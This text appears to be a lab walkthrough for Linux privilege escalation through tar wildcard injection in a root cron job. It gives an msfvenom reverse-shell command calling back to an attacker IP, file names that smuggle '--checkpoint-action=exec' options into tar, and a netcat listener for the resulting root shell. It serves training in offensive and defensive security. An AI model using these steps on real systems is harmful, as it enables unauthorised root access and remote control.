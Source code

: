 # Cron Jobs - Wildcards

View the contents of the other cron job script:

`cat /usr/local/bin/compress.sh`

Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:

`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf`

Transfer the shell.elf file to **/home/user/** on the Debian VM. Make sure the file is executable:

`chmod +x /home/user/shell.elf`

Create these two files in /home/user:

`touch /home/user/--checkpoint=1`

\
`touch /home/user/--checkpoint-action=exec=shell.elf`

When the tar command in the cron job runs, the wildcard (\*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.

Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run. A root shell should connect back to your netcat listener.

`nc -nvlp 4444`
